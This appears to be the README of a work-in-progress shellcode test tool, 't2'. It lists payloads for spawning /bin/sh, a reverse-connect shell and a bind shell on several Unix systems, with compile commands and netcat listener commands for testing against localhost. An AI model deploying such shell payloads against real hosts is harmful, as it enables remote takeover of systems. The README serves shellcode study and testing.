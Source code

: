 
# About

This is work in progress so if you decide to fork or try running codes and they fail, just bear in mind it's not really intended for anyone else to use right now.

# Usage

    ./t2 -h

	  Target OS: x86-64 LINUX
	  usage: test -s <number> -p <port> -a <ip address> -c <command>
	
	  -c <command>  Command to execute
	  -s <number>   Shellcode to execute (see table below)
	  -p <port>     Port to use to bind/reverse shell (default is 1234)
	  -a <ip>       Remote ipv4 address for reverse shell (default is localhost)
	
	  Number  Description                                              Size
	  ======  ===========                                              ========
	  0       execve("/bin/sh", {"/bin/sh", NULL}, 0)                  22 bytes
	  1       execve("/bin/sh", {"/bin/sh", "-c", <cmd>, NULL}, 0)     39 bytes
	  2       socket(), connect(), execve("/bin/sh")                   67 bytes
	  3       socket(), bind(), listen(), accept(), execve("/bin/sh")  79 bytes

# Mac OSX x86-64

Compile with OSX defined

    gcc -DOSX t2.c -ot2
  
# Solaris x86
    
    gcc -DSX86 t2.c -ot2 -lnsl -lsocket

# BSD x86 or x86-64

	gcc -DBSD32 t2.c -ot2
    gcc -DBSD t2.c -ot2

# Linux x86 or x86-64
    
    gcc -DLINUX32 t2.c -ot2
    gcc t2.c -ot2
    
# Testing shells
    
For reverse connect shell (2). Have netcat or ncat listen on port 1234
    
    ncat -vl4 localhost 1234
    nc -vl 1234

Then execute
  
    ./t2 -s2  
  
For the bind shell(3). Execute

    ./t2 -s3
  
Then try connect: 

    nc -v localhost 1234
    ncat -v4 localhost 1234

When connected, you won't actually see anything since it's not a pty or interactive shell. Type something like ls -asl and you'll receive a detailed directory listing.
    
# Author

[@odzhancode](https://www.twitter.com/odzhancode "Follow me on Twitter")